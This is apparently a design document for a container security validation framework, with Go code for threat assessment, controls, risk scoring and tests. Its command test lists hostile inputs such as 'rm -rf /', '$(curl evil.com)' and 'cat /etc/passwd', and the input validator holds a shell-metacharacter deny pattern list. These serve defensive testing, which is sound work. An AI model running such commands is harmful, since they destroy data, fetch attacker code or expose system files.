

# Security Validation Framework

## Overview

The Security Validation Framework provides comprehensive threat assessment, risk analysis, and security control evaluation for Container Kit operations. It implements a proactive security model that evaluates risks before execution and provides actionable security recommendations.

## Validation Framework

### Core Architecture



### Security Validator Implementation

```go
type SecurityValidator struct {
    logger       zerolog.Logger
    mutex        sync.RWMutex
    vulnDatabase map[string]VulnerabilityInfo
    policyEngine *SecurityPolicyEngine
    threatModel  *ThreatModel
}

func NewSecurityValidator(logger zerolog.Logger) *SecurityValidator {
    return &SecurityValidator{
        logger:       logger,
        vulnDatabase: initializeVulnerabilityDatabase(),
        policyEngine: NewSecurityPolicyEngine(),
        threatModel:  NewThreatModel(),
    }
}
```

## Threat Model

### Threat Categories

#### T001: Container Escape
**Description:** Attempts to break out of container isolation to access host system.

**Attack Vectors:**
- Kernel exploits
- Privileged container abuse
- Mount namespace violations
- Capability escalation

**Risk Factors:**
- Privileged execution: HIGH impact
- Host mount access: HIGH impact
- Kernel version vulnerabilities: MEDIUM impact

#### T002: Code Injection
**Description:** Injection of malicious code through various input vectors.

**Attack Vectors:**
- Command injection
- Script injection
- Environment variable manipulation
- Configuration file tampering

**Risk Factors:**
- Unvalidated user input: HIGH impact
- Shell command execution: HIGH impact
- Dynamic code evaluation: MEDIUM impact

#### T003: Resource Exhaustion
**Description:** Denial of service through resource consumption attacks.

**Attack Vectors:**
- Memory bombs
- CPU intensive operations
- Disk space exhaustion
- Process fork bombs

**Risk Factors:**
- Unlimited resource access: HIGH impact
- No resource monitoring: MEDIUM impact
- Shared resource pools: MEDIUM impact

#### T004: Privilege Escalation
**Description:** Gaining elevated privileges beyond intended access level.

**Attack Vectors:**
- SUID binary exploitation
- Sudo misconfigurations
- Capability abuse
- Service account escalation

**Risk Factors:**
- Root execution: HIGH impact
- Excessive capabilities: MEDIUM impact
- Writable filesystem: MEDIUM impact

#### T005: Data Exfiltration
**Description:** Unauthorized access and extraction of sensitive data.

**Attack Vectors:**
- Network data exfiltration
- Filesystem data access
- Memory dumps
- Log injection

**Risk Factors:**
- Network connectivity: HIGH impact
- Sensitive data access: HIGH impact
- Logging verbosity: LOW impact

### Threat Assessment Engine

```go
type ThreatAssessment struct {
    ThreatID     string  `json:"threat_id"`
    Description  string  `json:"description"`
    Impact       float64 `json:"impact"`       // 1.0 (LOW) to 3.0 (HIGH)
    Probability  float64 `json:"probability"`  // 1.0 (LOW) to 3.0 (HIGH)
    Mitigated    bool    `json:"mitigated"`
    Controls     []string `json:"controls"`   // Active controls
}

func (sv *SecurityValidator) assessThreats(ctx context.Context, 
    options AdvancedSandboxOptions) []ThreatAssessment {
    
    var assessments []ThreatAssessment
    
    for _, threat := range sv.threatModel.Threats {
        assessment := ThreatAssessment{
            ThreatID:    threat.ID,
            Description: threat.Description,
            Impact:      sv.calculateImpact(threat, options),
            Probability: sv.calculateProbability(threat, options),
        }
        
        // Evaluate active controls
        assessment.Controls = sv.getActiveControls(threat.ID, options)
        assessment.Mitigated = sv.isTheatMitigated(threat.ID, assessment.Controls)
        
        assessments = append(assessments, assessment)
    }
    
    return assessments
}
```

## Security Controls

### Control Framework

Security controls are categorized into three types:
- **Preventive Controls**: Block security violations before they occur
- **Detective Controls**: Identify security violations in real-time
- **Corrective Controls**: Respond to and remediate security violations

### Control Definitions

#### C001: Non-root User Execution
**Type:** Preventive
**Description:** Enforces non-root user execution in containers.
**Implementation:**
```go
func (sv *SecurityValidator) validateNonRootExecution(options AdvancedSandboxOptions) bool {
    return options.User != "" && options.User != "0" && options.User != "root"
}
```

#### C002: Read-only Root Filesystem
**Type:** Preventive  
**Description:** Prevents modifications to the root filesystem.
**Implementation:**
```go
func (sv *SecurityValidator) validateReadOnlyFilesystem(config ContainerConfig) bool {
    return config.ReadonlyRootfs == true
}
```

#### C003: Network Isolation
**Type:** Preventive
**Description:** Restricts network access to prevent data exfiltration.
**Implementation:**
```go
func (sv *SecurityValidator) validateNetworkIsolation(options AdvancedSandboxOptions) bool {
    return !options.SecurityPolicy.AllowNetworking
}
```

#### C004: Input Validation
**Type:** Preventive
**Description:** Validates and sanitizes all input parameters.
**Implementation:**
```go
func (sv *SecurityValidator) validateInputSafety(input string) bool {
    dangerousPatterns := []string{
        `\$\(.*\)`,     // Command substitution
        "`.*`",         // Backtick execution
        "&&",           // Command chaining
        "||",           // Command chaining
        "|",            // Piping
        ">",            // Redirection
        "<",            // Redirection
        ";",            // Command termination
    }
    
    for _, pattern := range dangerousPatterns {
        if matched, _ := regexp.MatchString(pattern, input); matched {
            return false
        }
    }
    return true
}
```

#### C005: Command Allowlisting
**Type:** Preventive
**Description:** Restricts execution to predefined safe commands.
**Implementation:**
```go
var allowedCommands = []string{
    "ls", "cat", "echo", "pwd", "whoami",
    "grep", "find", "sort", "uniq", "wc",
}

func (sv *SecurityValidator) isCommandAllowed(command string) bool {
    for _, allowed := range allowedCommands {
        if command == allowed {
            return true
        }
    }
    return false
}
```

### Control Effectiveness Evaluation

```go
type ControlEffectiveness struct {
    ControlID    string  `json:"control_id"`
    IsActive     bool    `json:"is_active"`
    Effectiveness float64 `json:"effectiveness"` // 0.0 to 1.0
    Status       string  `json:"status"`        // IMPLEMENTED, PARTIAL, NOT_IMPLEMENTED
}

func (sv *SecurityValidator) evaluateControlEffectiveness(
    controlID string, options AdvancedSandboxOptions) ControlEffectiveness {
    
    switch controlID {
    case "C001": // Non-root user
        active := sv.validateNonRootExecution(options)
        return ControlEffectiveness{
            ControlID:     controlID,
            IsActive:      active,
            Effectiveness: 0.9, // 90% effective when active
            Status:        ternary(active, "IMPLEMENTED", "NOT_IMPLEMENTED"),
        }
    case "C002": // Read-only filesystem
        // Implementation depends on container configuration
        return ControlEffectiveness{
            ControlID:     controlID,
            IsActive:      true, // Always enforced in our implementation
            Effectiveness: 0.95,
            Status:        "IMPLEMENTED",
        }
    // ... other controls
    }
}
```

## Risk Assessment

### Risk Calculation

The risk score is calculated using the formula:

```
Risk Score = Impact × Probability × (Mitigated ? 0.3 : 1.0)
```

**Risk Levels:**
- **CRITICAL**: Score ≥ 7.0
- **HIGH**: Score ≥ 5.0  
- **MEDIUM**: Score ≥ 3.0
- **LOW**: Score < 3.0

### Risk Calculator Implementation

```go
type RiskCalculator struct {
    impactWeights      map[string]float64
    probabilityWeights map[string]float64
    mitigationFactor   float64
}

func NewRiskCalculator() *RiskCalculator {
    return &RiskCalculator{
        impactWeights: map[string]float64{
            "HIGH":   3.0,
            "MEDIUM": 2.0,
            "LOW":    1.0,
        },
        probabilityWeights: map[string]float64{
            "HIGH":   3.0,
            "MEDIUM": 2.0,
            "LOW":    1.0,
        },
        mitigationFactor: 0.3, // 70% risk reduction when mitigated
    }
}

func (rc *RiskCalculator) CalculateRisk(assessment ThreatAssessment) float64 {
    baseRisk := assessment.Impact * assessment.Probability
    
    if assessment.Mitigated {
        return baseRisk * rc.mitigationFactor
    }
    
    return baseRisk
}

func (rc *RiskCalculator) GetRiskLevel(score float64) string {
    switch {
    case score >= 7.0:
        return "CRITICAL"
    case score >= 5.0:
        return "HIGH"
    case score >= 3.0:
        return "MEDIUM"
    default:
        return "LOW"
    }
}
```

## Vulnerability Scanning

### Vulnerability Database

```go
type VulnerabilityInfo struct {
    ID          string   `json:"id"`
    Severity    string   `json:"severity"`    // CRITICAL, HIGH, MEDIUM, LOW
    Description string   `json:"description"`
    CVE         string   `json:"cve,omitempty"`
    Mitigations []string `json:"mitigations"`
}

func initializeVulnerabilityDatabase() map[string]VulnerabilityInfo {
    return map[string]VulnerabilityInfo{
        "VULN_001": {
            ID:          "VULN_001",
            Severity:    "HIGH",
            Description: "Privileged container execution",
            Mitigations: []string{"C001", "C009"},
        },
        "VULN_002": {
            ID:          "VULN_002", 
            Severity:    "MEDIUM",
            Description: "Writable root filesystem",
            Mitigations: []string{"C002"},
        },
        "VULN_003": {
            ID:          "VULN_003",
            Severity:    "HIGH",
            Description: "Network access enabled",
            Mitigations: []string{"C003"},
        },
        // ... additional vulnerabilities
    }
}
```

### Vulnerability Scanner

```go
func (sv *SecurityValidator) scanVulnerabilities(ctx context.Context, 
    options AdvancedSandboxOptions) []VulnerabilityInfo {
    
    var vulnerabilities []VulnerabilityInfo
    
    // Check for privileged execution
    if options.Privileged || options.User == "root" {
        if vuln, exists := sv.vulnDatabase["VULN_001"]; exists {
            vulnerabilities = append(vulnerabilities, vuln)
        }
    }
    
    // Check for network access
    if options.SecurityPolicy.AllowNetworking {
        if vuln, exists := sv.vulnDatabase["VULN_003"]; exists {
            vulnerabilities = append(vulnerabilities, vuln)
        }
    }
    
    // Check for dangerous capabilities
    for _, cap := range options.Capabilities {
        if sv.isDangerousCapability(cap) {
            if vuln, exists := sv.vulnDatabase["VULN_004"]; exists {
                vulnerabilities = append(vulnerabilities, vuln)
            }
        }
    }
    
    return vulnerabilities
}
```

## Validation Report

### Security Validation Report Structure

```go
type SecurityValidationReport struct {
    SessionID        string                   `json:"session_id"`
    Timestamp        time.Time                `json:"timestamp"`
    RiskLevel        string                   `json:"risk_level"`
    RiskScore        float64                  `json:"risk_score"`
    Threats          []ThreatAssessment       `json:"threats"`
    Vulnerabilities  []VulnerabilityInfo      `json:"vulnerabilities"`
    ActiveControls   []ControlEffectiveness   `json:"active_controls"`
    Recommendations  []SecurityRecommendation `json:"recommendations"`
    ComplianceStatus ComplianceStatus         `json:"compliance_status"`
}

type SecurityRecommendation struct {
    Priority     string `json:"priority"`    // HIGH, MEDIUM, LOW
    Category     string `json:"category"`    // CONFIGURATION, POLICY, MONITORING
    Title        string `json:"title"`
    Description  string `json:"description"`
    Remediation  string `json:"remediation"`
}
```

### Report Generation

```go
func (sv *SecurityValidator) ValidateSecurity(ctx context.Context, 
    sessionID string, options AdvancedSandboxOptions) (*SecurityValidationReport, error) {
    
    sv.logger.Info().Str("session_id", sessionID).Msg("Starting security validation")
    
    // Assess threats
    threats := sv.assessThreats(ctx, options)
    
    // Scan vulnerabilities  
    vulnerabilities := sv.scanVulnerabilities(ctx, options)
    
    // Evaluate controls
    controls := sv.evaluateControls(ctx, options)
    
    // Calculate overall risk
    riskScore := sv.calculateOverallRisk(threats)
    riskLevel := sv.getRiskLevel(riskScore)
    
    // Generate recommendations
    recommendations := sv.generateRecommendations(threats, vulnerabilities, controls)
    
    // Check compliance
    compliance := sv.checkCompliance(options)
    
    report := &SecurityValidationReport{
        SessionID:        sessionID,
        Timestamp:        time.Now(),
        RiskLevel:        riskLevel,
        RiskScore:        riskScore,
        Threats:          threats,
        Vulnerabilities:  vulnerabilities,
        ActiveControls:   controls,
        Recommendations:  recommendations,
        ComplianceStatus: compliance,
    }
    
    sv.auditSecurityValidation(report)
    
    return report, nil
}
```

## Testing Framework

### Security Test Scenarios

#### Secure Configuration Test
```go
func TestSecureConfiguration(t *testing.T) {
    validator := NewSecurityValidator(zerolog.New(os.Stdout))
    
    options := AdvancedSandboxOptions{
        User:  "1000",
        Group: "1000",
        SecurityPolicy: SecurityPolicy{
            AllowNetworking: false,
            RequireNonRoot:  true,
        },
        Capabilities: []string{}, // No capabilities
    }
    
    report, err := validator.ValidateSecurity(context.Background(), "test-session", options)
    
    assert.NoError(t, err)
    assert.Equal(t, "LOW", report.RiskLevel)
    assert.True(t, report.RiskScore < 3.0)
}
```

#### Insecure Configuration Test
```go
func TestInsecureConfiguration(t *testing.T) {
    validator := NewSecurityValidator(zerolog.New(os.Stdout))
    
    options := AdvancedSandboxOptions{
        User:       "root",           // Root user - HIGH risk
        Group:      "root",
        Privileged: true,             // Privileged mode - CRITICAL risk
        SecurityPolicy: SecurityPolicy{
            AllowNetworking: true,    // Network access - MEDIUM risk
        },
        Capabilities: []string{"CAP_SYS_ADMIN"}, // Dangerous capability
    }
    
    report, err := validator.ValidateSecurity(context.Background(), "test-session", options)
    
    assert.NoError(t, err)
    assert.Equal(t, "CRITICAL", report.RiskLevel)
    assert.True(t, report.RiskScore >= 7.0)
}
```

#### Command Security Test
```go
func TestCommandSecurity(t *testing.T) {
    validator := NewSecurityValidator(zerolog.New(os.Stdout))
    
    testCases := []struct {
        command  string
        expected bool
    }{
        {"ls -la", true},                    // Safe command
        {"echo hello", true},               // Safe command
        {"rm -rf /", false},                // Dangerous command
        {"$(curl evil.com)", false},        // Command injection
        {"cat /etc/passwd", false},         // Sensitive file access
    }
    
    for _, tc := range testCases {
        result := validator.isCommandSafe(tc.command)
        assert.Equal(t, tc.expected, result, "Command: %s", tc.command)
    }
}
```

### Integration Testing

```go
func TestSecurityValidationIntegration(t *testing.T) {
    validator := NewSecurityValidator(zerolog.New(os.Stdout))
    
    // Test development configuration
    devOptions := AdvancedSandboxOptions{
        User:         "1000",
        Group:        "1000", 
        Capabilities: []string{},
        SecurityPolicy: SecurityPolicy{
            AllowNetworking: false,
            RequireNonRoot:  true,
        },
    }
    
    report, err := validator.ValidateSecurity(context.Background(), "dev-session", devOptions)
    
    assert.NoError(t, err)
    assert.NotNil(t, report)
    assert.Contains(t, []string{"LOW", "MEDIUM"}, report.RiskLevel)
    assert.True(t, len(report.ActiveControls) > 0)
    assert.True(t, len(report.Recommendations) >= 0)
}
```

## Performance Metrics

### Validation Performance

**Target Performance Metrics:**
- Security validation latency: <10ms per check
- Threat assessment: <5ms per threat
- Control evaluation: <2ms per control
- Report generation: <15ms total

**Performance Monitoring:**
```go
func (sv *SecurityValidator) ValidateSecurityWithMetrics(ctx context.Context,
    sessionID string, options AdvancedSandboxOptions) (*SecurityValidationReport, error) {
    
    start := time.Now()
    defer func() {
        duration := time.Since(start)
        sv.logger.Debug().
            Str("session_id", sessionID).
            Dur("duration", duration).
            Msg("Security validation completed")
    }()
    
    return sv.ValidateSecurity(ctx, sessionID, options)
}
```

## Best Practices

### Validation Guidelines

1. **Fail-Safe Defaults**
   - Block execution on validation errors
   - Default to highest security level
   - Require explicit permission for elevated access

2. **Comprehensive Coverage**
   - Validate all security dimensions
   - Consider attack vector combinations
   - Account for edge cases and corner scenarios

3. **Actionable Results**
   - Provide specific remediation steps
   - Prioritize recommendations by risk level
   - Include compliance mapping

### Performance Optimization

1. **Efficient Algorithms**
   - Use caching for repeated validations
   - Implement parallel processing for independent checks
   - Optimize data structures for fast lookups

2. **Resource Management**
   - Pool expensive objects for reuse
   - Implement lazy loading for heavy operations
   - Monitor memory usage and implement cleanup

3. **Asynchronous Processing**
   - Run non-blocking validations in background
   - Use streaming for large datasets
   - Implement timeout mechanisms

## References

- [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)
- [OWASP Container Security](https://owasp.org/www-project-container-security/)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [CVE Database](https://cve.mitre.org/)